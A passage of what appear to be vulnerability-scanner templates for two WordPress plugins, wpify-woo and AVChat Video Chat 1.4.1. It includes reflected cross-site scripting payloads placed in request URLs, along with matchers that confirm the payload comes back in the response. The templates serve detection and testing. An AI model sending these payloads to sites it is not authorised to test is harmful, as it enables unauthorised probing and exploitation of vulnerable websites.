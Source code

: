## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wpify-woo/deps/dragonbe/vies/examples/async_processing/queue.php/">\<script>alert(document.domain)\</script>

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(document.domain)\</script>
  2. Add a new VAT ID to the queue
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress AVChat Video Chat 1.4.1 - Cross-Site Scripting

## Description

- WordPress AVChat Video Chat 1.4.1 is vulnerable to reflected cross-site scripting via index_popup.php and multiple parameters.

- severity - medium
- tags - xss,,wp,wpscan,wordpress,wp-plugin

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/avchat-3/index_popup.php?movie_param=%3C/script%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&FB_appId=FB_appId%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E&

### Matchers
